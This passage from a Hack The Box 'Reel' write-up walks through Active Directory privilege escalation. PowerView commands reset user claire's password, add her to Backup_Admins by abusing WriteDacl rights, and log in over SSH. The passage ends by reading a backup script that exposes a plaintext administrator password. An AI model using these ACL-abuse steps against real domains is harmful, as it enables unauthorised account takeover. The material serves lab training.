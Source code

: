**Step 3**  
Change the password of claire:  

{% highlight powershell %}
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $ClairePassword = ConvertTo-SecureString ‘Password1234’ -AsPlainText -Force -Verbose
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $ClairePassword -Verbose
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'claire'
VERBOSE: [Set-DomainUserPassword] Password for user 'claire' successfully reset 
{% endhighlight %}  

Also, we should add the user Claire to the domain group ‘Backup_Admins’ by using the Add-DomainGroupMember function:  

{% highlight powershell %}
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $Cred = New-Object System.Management.Automation.PSCredential(‘HTB\claire’, $ClairePassword)
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainGroupMember -Identity ‘Backup_Admins’ -Members ‘claire’ -Credential $Cred
{% endhighlight %}  

And now we can use our new credentials to log in through SSH with the user Claire:  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Reel]─[root@Arthorias]─[0]─[2505]
╰─[:)] # ssh claire@10.10.10.77
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
claire@REEL C:\Users\claire> 
{% endhighlight %}  

From the analysis before, I know that claire has WriteDacl rights on the Backup_Admins group. I can use that to add her to the group.  

{% highlight powershell %}
claire@REEL C:\Users\claire>net group backup_admins                        
Group name:     Backup_Admins
Comment:
Members:	ranj           
-------------------------------------------------------------------------------     
The command completed successfully.

claire@REEL C:\Users\claire>net group backup_admins claire /add
The command completed successfully.
{% endhighlight %}  

After adding to the "Backup_Admins" group, we can access the **C:\Users\Administrator** folder.  
Among several of its files, we find a script with access credentials to log in with the Administrator user.  

{% highlight powershell %}
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>type BackupScript.ps1
# admin password                
$password="Cr4ckMeIfYouC4n!"
{% endhighlight %}  

